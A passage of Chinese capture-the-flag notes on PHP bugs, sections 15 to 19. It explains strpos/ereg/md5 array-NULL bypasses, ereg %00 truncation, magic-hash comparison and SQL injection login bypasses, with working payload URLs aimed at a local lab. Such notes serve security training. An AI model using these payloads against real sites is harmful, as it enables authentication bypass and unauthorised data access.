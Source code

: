 ## 15 strpos数组绕过NULL与ereg正则%00截断

- 方法一：
既要是纯数字,又要有`’#biubiubiu’`，`strpos()`找的是字符串,那么传一个数组给它,`strpos()`出错返回`null,null!==false`,所以符合要求. 
所以输入`nctf[]=`
那为什么`ereg()`也能符合呢?因为`ereg()`在出错时返回的也是`null`,`null!==false`,所以符合要求. 

- 方法二：
字符串截断,利用`ereg()`的`NULL`截断漏洞，绕过正则过滤
`http://127.0.0.1/Php_Bug/16.php?nctf=1%00#biubiubiu` 错误
需将#编码
`http://127.0.0.1/Php_Bug/16.php?nctf=1%00%23biubiubiu`
正确

## 16 SQL注入or绕过

```
$query='SELECT * FROM users WHERE name=\''admin\'\' AND pass=\''or 1 #'\';';
```

`?username=admin\'\' AND pass=\''or 1 #&password=`

## 17 密码md5比较绕过

```
//select pw from ctf where user=''and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #
```

`?user='and 0=1 union select  'e10adc3949ba59abbe56e057f20f883e' #&pass=123456`

## 18 md5()函数===使用数组绕过

若为`md5($_GET['username']) == md5($_GET['password'])`
则可以构造：
`http://127.0.0.1/Php_Bug/18.php?username=QNKCDZO&password=240610708`
因为`==`对比的时候会进行数据转换，`0eXXXXXXXXXX` 转成`0`了
也可以使用数组绕过
`http://127.0.0.1/Php_Bug/18.php?username[]=1&password[]=2`


但此处是`===`，只能用数组绕过，`PHP`对数组进行`hash`计算都会得出`null`的空值
`http://127.0.0.1/Php_Bug/18.php?username[]=1&password[]=2`

## 19 ereg()函数strpos() 函数用数组返回NULL绕过

- 方法一：
ereg()正则函数可以用`%00`截断
`http://127.0.0.1/Php_Bug/19.php?password=1%00--`

- 方法二：
将`password`构造一个`arr[]`，传入之后，`ereg`是返回`NULL`的，`===`判断`NULL`和 `FALSE`，是不相等的，所以可以进入第二个判断，而`strpos`处理数组，也是返回`NULL`，注意这里的是`!==`，`NULL!==FALSE`,条件成立，拿到`flag`
`http://127.0.0.1/Php_Bug/19.php?password[]=`

